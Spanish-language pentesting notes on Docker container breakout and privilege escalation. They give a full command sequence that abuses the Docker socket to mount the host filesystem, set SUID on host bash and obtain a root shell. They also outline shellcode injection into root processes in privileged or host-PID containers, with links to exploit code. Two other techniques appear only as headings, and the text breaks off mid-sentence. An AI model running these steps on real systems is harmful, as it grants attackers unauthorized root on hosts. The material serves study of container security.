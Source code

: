 #Escalada #DockerBreakout
###### Definición
Son técnicas para abusar de Docker con el objetivo de elevar nuestros privilegios de usuario y conseguir escapar del contenedor hacia la maquina host.

###### Explotación
Usaremos cuatro técnicas diferentes:
-  Uso de monturas en el despliegue de contenedores para acceder a archivos privilegiados del sistema host.
		Cuando nosotros llamamos a Docker hay un recurso en el sistema llamado Unix Socket File que permite comunicarse con el demonio(daemon) de Docker que se ubica en `/var/run/docker.sock`, cuando el demonio esta activo nos permite interactuar con Docker.
		Esto nos permite que una vez ganado acceso  a un sistema e identificado un servicio corriendo en un Docker y vemos que tiene el socket de Docker y nos deja crear contenedores podemos crear un nuevo contenedor jugando con monturas.
		Crearemos un nuevo contenedor por ejemplo: `docker pull ubuntu:latest`
		Replicamos la raíz de la maquina host con monturas `docker run --rm -dit -v /:/mnt/root --name ubuntuServer ubuntu`
		Ejecutamos el contenedor `docker exec -it ubuntuServer bash`
		Una vez nos encontremos dentro del contenedor si navegamos a `/mnt/root/bin` y le damos permisos de SUID a bash `chmod u+s bash` 
		En la maquina host usando el comando `bash -p` obtendremos una shell como root.

- Despliegue de contenedores PID y PRIVILEGED
		Si el contenedor ha sido levantado con `--pid=host` o `--privileged` podemos ver todos los procesos de la maquina host en la maquina Docker, si al ver los procesos con `ps -faux` y vemos algun proceso ejecutando como root se puede inyectar un shellcode a través del proceso para que cree un nuevo subproceso y este ejecute un comando.
		La siguien
		https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 
		https://www.exploit-db.com/exploits/41128

- Uso de Portainer

- Abuso de API de Docker (port: 2375)